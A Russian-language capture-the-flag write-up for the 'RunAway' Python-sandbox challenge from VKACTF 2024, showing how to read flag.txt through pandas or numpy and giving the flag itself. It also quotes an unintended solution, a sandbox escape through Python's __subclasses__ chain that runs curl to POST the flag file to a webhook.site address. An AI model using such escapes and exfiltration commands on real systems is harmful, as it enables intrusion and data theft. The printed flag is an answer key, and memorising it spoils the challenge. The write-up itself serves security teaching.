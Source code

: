 # RunAway

| Cобытие       | Название       | Категория | Сложность |
|:-------------:|:-------------: |:---------:|:---------:|
| VKACTF 2024 | RunAway | Misc | Легкая |

## Описание

>Автор [old3gg]
>
>После того как все дела в Лос-Сантосе закончены, самое время давать дёру. Быстрее собирай шмотки! Только не забудь самое главное P.S. флаг лежит в flag.txt

# Решение

Переходим на данную нам ссылку - довольствуемся представленным нам функционалом песочница питона. Просто читаем ывданные сорцы, пробуем выполнить что-нибудь интересное, что поможет нам получить флажок.В коде замечаем интересные импорты библиотек pandas и numpy которые говорят нам о том, что данные библиотеки установлены, однако нигде не используются. Читаем флажок используя любую из библиотек:

```python
import pandas as pd
sales_data = pd.read_csv('flag.txt')
print(sales_data.head())

import numpy as np
np.loadtxt('flag.txt')
```

Также было представленно множество unintended решений, которые также позволяли прочитать флаг, не используя pandas и numpy, например:

```python
print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('curl -X POST https://webhook.site/qweqwe -d $(cat flag.txt)'))
```

### Флаг
```
vka{c4r3Fully_R34d_tHe_c0d3_1s_t0o_34sY}
```

